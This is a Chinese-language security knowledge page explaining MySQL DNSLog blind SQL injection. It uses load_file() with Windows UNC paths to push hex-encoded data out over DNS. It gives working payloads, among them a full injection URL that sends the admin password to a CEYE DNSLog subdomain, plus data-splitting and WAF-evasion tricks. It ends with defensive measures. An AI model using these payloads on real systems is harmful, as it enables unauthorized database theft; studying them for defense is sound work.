

## 概述

DNSLog 注入是一种在无回显场景下通过 DNS 请求将数据外带的技术。本文系统梳理 MySQL `load_file()` 函数结合 Windows UNC 路径实现 DNSLog 盲注的完整攻击链，涵盖原理、环境依赖、平台选择、Payload 构造及实战注意事项。

## 攻击原理

### 核心流程



1. 攻击者构造包含 UNC 路径的 SQL 注入语句
2. 目标数据库执行 `load_file()` 尝试读取 UNC 路径
3. Windows 系统解析 UNC 路径，向 DNSLog 平台发起 DNS 查询
4. DNSLog 平台记录查询日志，攻击者从中提取数据

### 适用场景

- SQL 注入中的布尔/时间盲注升级为 DNSLog 外带
- 无回显的命令执行、SSRF 等漏洞利用

## 前置条件

### 操作系统限制：必须为 Windows

> **关键点**：`load_file()` 结合 UNC 路径仅在 **Windows** 环境下生效。Linux 无 UNC 路径机制，无法触发 DNS 查询。

### MySQL 配置：`secure-file-priv` 必须放行

执行 `SHOW VARIABLES LIKE '%secure%'` 查看配置：

| 配置值 | 含义 | 是否可利用 |
|--------|------|------------|
| `NULL` | 禁止导入/导出 | ❌ |
| `/tmp/` 或具体目录 | 限制仅在该目录读写 | ❌ (UNC 不在该目录) |
| **空值** | **不限制读写路径** | ✅ |

### 权限要求

- 数据库用户需拥有 `FILE` 权限
- 否则报错：`ERROR 1045 (28000): Access denied for user`

### DNSLog 平台可用

常用平台：
- **CEYE.io** —— 集成 DNSLog、HTTPLog，免费注册即用
- **Hyuga (dnslog.cn)** —— 国内常用，速度较快

## 技术细节

### UNC 路径机制

```
\\<domain>\<path>
```

- Windows 解析 UNC 路径时会向 `<domain>` 发起 DNS 查询
- MySQL `load_file()` 尝试读取该路径 → 触发系统层面的 DNS 解析

### `load_file()` 函数语法

```sql
LOAD_FILE(file_name)
```
- 读取服务器本地文件并返回内容
- 配合 UNC 路径：`LOAD_FILE(CONCAT('\\\\', <data>, '.<your_domain>\\abc'))`

### 数据编码：Hex 编码规避特殊字符

域名规范限制字符集（仅允许字母、数字、连字符、点），数据库字段常含特殊符号（`@`、`#`、`=` 等），直接拼接会导致 DNS 查询失败。

**解决方案**：`HEX()` 编码后再拼接

```sql
SELECT HEX(pass) FROM test_user WHERE user='admin'
-- 结果示例: 313233343536 (对应 '123456')
```

## 实战 Payload 构造

### 基础模板

```sql
UNION SELECT 1,2,LOAD_FILE(
    CONCAT(
        '\\\\',                    -- 4个反斜杠转义为UNC前缀 \\
        (SELECT HEX(column) FROM table WHERE condition LIMIT 1),
        '.<your_ceye_domain>\\abc' -- 你的DNSLog子域名
    )
)
```

### CEYE 平台完整示例

假设 CEYE 分配域名：`mysql.nk40ci.ceye.io`

```sql
http://target.com/mysql.php?id=1 UNION SELECT 1,2,
LOAD_FILE(CONCAT('\\\\',(SELECT HEX(pass) FROM test_user WHERE user='admin' LIMIT 1),'.mysql.nk40ci.ceye.io\\abc'))
```

### 执行效果

CEYE 日志将显示类似：
```
dns    2024-01-15 10:30:45    313233343536.mysql.nk40ci.ceye.io    A    192.168.1.100
```
攻击者取 `313233343536` → `HEX` 解码 → 得到 `123456`

## 进阶技巧

### 长数据分段外带

DNS 查询域名长度限制（单标签 ≤63 字符，全域名 ≤255 字符），长数据需分段：

```sql
-- 获取前 30 字符
SELECT SUBSTRING(HEX(column), 1, 30)
-- 获取 31-60 字符
SELECT SUBSTRING(HEX(column), 31, 30)
```

### 多行数据拼接

```sql
SELECT GROUP_CONCAT(HEX(column) SEPARATOR '.') FROM table
-- 结果: hex1.hex2.hex3.mysql.nk40ci.ceye.io
```

### 绕过 WAF/过滤

- 使用注释混淆：`UNI/**/ON SEL/**/ECT`
- 大小写混淆：`UnIoN SeLeCt`
- 编码绕过：URL 编码、双重编码

## 常见失败原因排查

| 现象 | 可能原因 | 排查方法 |
|------|----------|----------|
| 无 DNS 日志 | 目标非 Windows | `SELECT @@version_compile_os` |
| 无 DNS 日志 | `secure-file-priv=NULL` | `SHOW VARIABLES LIKE 'secure_file_priv'` |
| 报错 Access denied | 无 FILE 权限 | `SELECT CURRENT_USER, FILE_PRIV` |
| 域名解析失败 | 特殊字符未编码 | 必须使用 `HEX()` 编码 |
| 数据不全 | 域名长度超限 | 分段 `SUBSTRING` 外带 |

## 防御与检测

### 数据库层面

- 设置 `secure-file-priv=NULL` 禁用文件读写
- 回收非必要用户的 `FILE` 权限
- 启用 MySQL 审计日志记录 `LOAD_FILE` 调用

### 网络层面

- 限制数据库服务器出站 DNS 仅允许内部 DNS 服务器
- 部署 DNS 日志分析，告警异常子域名查询（高熵、长子域名）

### 应用层面

- 使用参数化查询/预编译语句（参考 [[java-preparedstatement-sql-injection-defense]]）
- WAF 规则拦截 `LOAD_FILE`、`CONCAT`、`HEX` 等关键字组合

## 相关知识页面

- [[mysql-duplicate-entry-error-based-sqli]] —— MySQL 报错注入另一种数据外带技术
- [[sqlmap-api-automation]] —— SQLMap 自动化检测此类注入
- [[cybersecurity-interview-guide-2022]] —— 面试中 SQL 注入防御专题

## 参考资源

- CEYE.io 官方文档：<https://ceye.io/>
- Hyuga DNSLog：<http://dnslog.cn/>
- MySQL `LOAD_FILE()` 官方文档：<https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file>
- `secure-file-priv` 详解：<https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html#sysvar_secure_file_priv>

## 来源

- [0x00实验室-202108-202304_046](../sources/0x00实验室-202108-202304_046.md)
